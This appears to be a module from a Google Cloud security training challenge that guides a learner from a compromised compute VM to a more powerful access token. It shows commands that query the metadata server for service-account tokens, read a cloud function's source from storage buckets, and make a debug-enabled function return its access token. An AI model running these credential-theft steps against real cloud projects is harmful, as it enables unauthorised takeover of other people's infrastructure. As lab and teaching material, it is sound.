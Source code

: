 # Module 3: Invoking answers

## Introduction

You can control a compute instance in the project! Let's find out which permissions this instance has in GCP.  
Your compute instance has a GCP service account assigned to it, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  
#####
    gcloud auth list


> **Background Info:**  
> Resources such as compute VMs use the Google metadata server endpoint to get an access token for their assigned service account.  
> As you now have access to the compute VM, you could also query the metadata server and retrieve information such as the VMs service account or its access token. For example you can use this endpoint to get information about the VMs service account:  
> #####
>     curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"
> 
> As the compute instance has gcloud installed, using `gcloud auth list` or `gcloud auth print-access-token` is more convenient though.  


The service account of this compute engine is the default compute service account: `<project-nr>-compute@developer.gserviceaccount.com`.  
A very powerful account in GCP! By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
#####
    gcloud compute instances list
"Request had insufficient authentication scopes". That is disappointing.  
You can list your OAuth access scopes with this command:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

That last access scope looks promising. The access scope `devstorage.read_only` allows you to read all storage buckets in the project.  

## Your Goal

**Invoke and exploit another resource to find a powerful access token allowing you to gain control over the project**

## Useful commands and tools:
- the compute engine also has gcloud installed
- the compute engine has a script that could be helpful
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

## Hints

<details>
  <summary>Hint 1</summary>

  List all storage buckets in the project. You can run the `gsutil` commands from the compute VM:  
  #####
      gsutil ls 
  There is an additional bucket that you couldn't access before. You can list and read the content on this bucket:
  #####
      gsutil ls gs://cloud-function-bucket-challenge4
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py
  A script on the compute engine can also give you more hints on how to use the new resource you found.

</details>

<details>
  <summary>Hint 2</summary>

  A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. As you have read access to the buckets, you can investigate what this function does.  
  A script in Alice's home directory on the compute VM tells you how to invoke the function.  
  Someone made it return information from the metadata server for debugging purposes...

</details>

<details>
  <summary>Hint 3</summary>
    
  The script on the compute VM invokes the function. You can modify that request and ask the function to return its access token instead of its service account email:
  #####
      curl -s -X POST https://europe-west1-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

</details>

## First stage of compromise achieved!

When you completed the challenge read [here](../extras/first-stage-compromised.md) what your new access token can do.
